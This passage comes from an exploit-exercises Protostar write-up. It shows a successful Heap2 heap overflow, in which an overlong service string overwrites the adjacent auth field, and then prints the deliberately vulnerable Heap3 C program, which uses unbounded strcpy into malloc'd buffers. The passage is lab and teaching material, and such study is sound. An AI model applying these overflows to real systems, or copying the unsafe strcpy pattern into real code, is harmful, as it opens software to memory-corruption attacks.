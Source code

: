 We can use the auth command argument to write the auth pointer address
We can use the service command argument to write anything to **0x804c018**

So we want to place anything but a 0 32 bytes above **0x804c008**. We cannot use the argument to the auth command since it is controlled but we can use the argument to the service command.
Writing any string longer than 16 bytes (auth int offset within the auth struct - **0x804c018** - **0x804c008**) will be enough

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth alvaro
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAB
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

## Heap3
In [Heap3](http://www.exploit-exercises.com/protostar/heap3) we are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```
